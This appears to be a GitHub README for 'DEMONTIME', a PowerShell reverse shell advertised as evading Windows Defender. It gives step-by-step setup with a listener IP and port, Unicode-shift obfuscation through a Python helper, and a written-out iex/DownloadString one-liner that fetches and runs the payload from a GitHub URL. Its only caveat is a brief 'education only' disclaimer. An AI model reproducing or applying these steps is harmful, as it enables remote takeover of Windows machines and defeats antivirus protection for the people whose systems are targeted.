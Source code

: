<h1>DEMONTIME</h1>

<h3>Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender</h3>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.

   
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format. Every unicode decimal on the output already has +10 added from its original form. The PowerShell script (demontime-template.ps1) will then subtract 10 on each of those unicode from the array to convert it back to its original unicode form.


![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime-template.ps1 script with the output generated from the Python script.

**NOTE: You can also use the Obfuscated PowerShell reverse shell one liner template alone if you wanted to. This also bypasses Windows Defender but if you wanted to add more obfuscation, you can convert the characters to unicode using the supplied Python script.** 

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number straight from Github:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime-template.ps1')```



![image](https://github.com/aaronquiamco/demontime/assets/59388557/e651c43a-6868-4124-ba6f-d3beaaf192bb)
